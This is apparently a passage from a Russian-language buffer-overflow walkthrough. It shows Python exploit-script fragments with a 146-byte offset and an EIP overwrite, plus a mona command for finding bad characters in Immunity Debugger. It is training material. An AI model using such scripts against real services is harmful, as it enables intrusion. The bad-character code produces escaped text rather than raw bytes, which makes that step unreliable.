 ```python
    except Exception as e:
        log.error(f"Error during exploitation: {str(e)}")
    finally:
        try:
            io.close()
        except:
            pass

# ==================== MAIN =====================
if __name__ == '__main__':
    #run_fuzzer()
    #get_offset()
    run_exploit()
```

Всё отлично!  
<img width="1920" height="996" alt="image" src="https://github.com/user-attachments/assets/543750ee-cda8-44c1-af75-7f733ca92167" />  

Приступаю к нахождению бэдчаров.  

Генерирую в `immunity debugger` последовательность без нулевого байта  
```python
!mona bytearray -b "\x00"
```

Корректирую функцию в скрипте
```python
def run_exploit():
    offset = 146
    junk   = b'A' * offset
    EIP    = b'B' * 4

    exclude_list = ['\\x00']
    stack = ''.join(f'\\x{x:02x}' for x in range(1, 256) if f'\\x{x:02x}' not in exclude_list)

    payload = b''.join([
        junk,
        EIP,
        stack.encode('latin-1'),
    ])

    try:
        io = start()
        io.sendline(payload)
        try:
            response = io.recv(timeout=RESPONSE_TIMEOUT)
            if response:
                log.warning(f"Server responded unexpectedly: {response[:100]}...")
            else:
                log.success("Server stopped responding - likely crashed!")
        except EOFError:
            log.success("Connection closed by server - likely crashed!")

    except Exception as e:
        log.error(f"Error during exploitation: {str(e)}")
    finally:
        try:
            io.close()
        except:
            pass

# ==================== MAIN =====================
if __name__ == '__main__':
    #run_fuzzer()
    #get_offset()
```